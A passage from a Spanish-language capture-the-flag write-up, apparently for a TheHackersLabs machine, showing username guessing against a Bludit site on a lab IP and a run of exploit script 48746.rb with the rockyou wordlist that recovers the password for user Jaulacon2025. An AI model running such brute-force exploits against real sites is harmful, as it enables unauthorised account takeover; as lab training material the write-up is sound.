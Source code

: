 El problema es que no tenemos un usuario, por lo que investigamos que usuarios podemos sacar de la página:
```bash
admin -> usuario por defecto de Bludit
Jaulacon2025
Jaulacon
jaulacon
bludit
```

Y probando cada uno en el Exploit, resulta que existe el **usuario Jaulacon2025**:
```bash
./48746.rb -r http://192.168.1.240 -u Jaulacon2025 -w /usr/share/wordlists/rockyou.txt
[*] Trying password: 123456
[*] Trying password: 12345
[*] Trying password: 123456789
...
[*] Trying password: juliana
[*] Trying password: cassandra

[+] Password found: cassandra
```
Tenemos su contraseña.

Vamos a probarla:

<p align="center">
<img src="/assets/images/THL-writeup-jaulaCon2025/Captura11.png">
</p>
